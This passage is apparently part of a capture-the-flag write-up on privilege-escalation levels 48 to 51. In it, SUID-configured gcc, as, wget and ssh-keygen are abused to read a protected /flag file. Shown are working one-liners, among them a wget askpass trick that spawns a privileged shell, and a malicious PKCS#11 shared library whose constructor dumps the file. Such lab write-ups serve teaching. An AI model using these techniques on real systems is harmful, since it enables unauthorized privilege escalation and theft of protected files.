 > ​		brig

```bash
$ gcc -x c /flag 
```

### Level 49 - as

From the `man` page of `as`: 

> OPTIONS
>        @file
>            Read command-line options from file. 

```bash
$ as @/flag
```

### Level 50 - wget

This was the most difficult task so far.

```bash
F=$(mktemp) && chmod +x $F && echo -e '#!/bin/sh -p\n/bin/sh -p 1>&0' >$F && wget --use-askpass=$F 0
cat /flag
```

1. `F=$(mktemp)`: This creates a temporary file and assigns its path to the variable `$F`.
2. `chmod +x $F`: This gives execute permissions to the temporary file.
3. `echo -e ‘#!/bin/sh -p\n/bin/sh -p 1>&0’ > $F`: This writes a shell script to the temporary file. The script executes `/bin/sh` with elevated privileges and redirects its output to file descriptor 0, effectively allowing interactive shell access.
4. `wget --use-askpass=$F 0`: This attempts to use the temporary file as an askpass program for `wget`.

### Level 51 - ssh-keygen

First we need to create a `.c` file and then compile it to an `.so` shared library. We do that because we can exploit that challenge via `ssh-keygen -D`. From the `man` page of `ssh-keygen`:

>     -D pkcs11
>                  Download the public keys provided by the PKCS#11 shared library pkcs11.  When used in combination with -s, this option indicates that a CA key resides in a PKCS#11 token (see the CERTIFICATES section for details).
>     
>     It is possible to sign using a CA key stored in a PKCS#11 token by providing the token library using -D and identifying the CA key by providing its public half as an argument to -s:
>     
>            $ ssh-keygen -s ca_key.pub -D libpkcs11.so -I key_id user_key.pub

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor))
void C_GetFunctionList() { sendfile(1, open("/flag", 0), 0, 4096); }
```

Now, we need to compile the program to `.so` and then perform the `ssh-keygen -D`.

```bash
$ gcc -shared -o w3t.so w3t.c && ssh-keygen -D ./w3t.so
```

